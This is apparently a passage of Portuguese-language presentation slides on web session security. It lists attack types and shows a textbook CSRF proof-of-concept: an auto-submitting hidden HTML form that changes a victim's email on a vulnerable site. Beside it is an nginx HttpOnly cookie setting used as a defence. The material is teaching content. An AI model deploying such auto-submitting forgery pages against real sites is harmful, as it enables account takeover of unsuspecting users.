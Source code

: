 </div>

<div>

<v-clicks>

- 🐛 Ataques XSS (Cross-Site Scripting)
- 🔮 Previsibilidade do ID de Sessão
- 📡 Sniffing de Rede
- 🎭 Ataque Man-in-the-Middle (MitM)
- 🎣 Ataques de Fixação de Sessão
- 📨 Ataques CSRF (Cross-Site Request Forgery)

</v-clicks>

</div>
</div>
---

# CSRF
[CSRF PortSwigger Academy](https://portswigger.net/web-security/csrf)

<img src="/csrf-portswigger.png" class="rounded shadow" />

---

# CSRF no código

<div grid="~ cols-2 gap-4">
<div>

```html {4-5|6-10|all}
<html>
  <body>
    <form
        action="https://vulnerable-website.com/email/change"
        method="POST">
        <input
            type="hidden"
            name="email"
            value="pwned@evil-user.net"
        />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```
</div>
<div>

NGINX
```yaml {none|all}
location / {
    proxy_cookie_path / "/; HttpOnly";
    ...
}
```
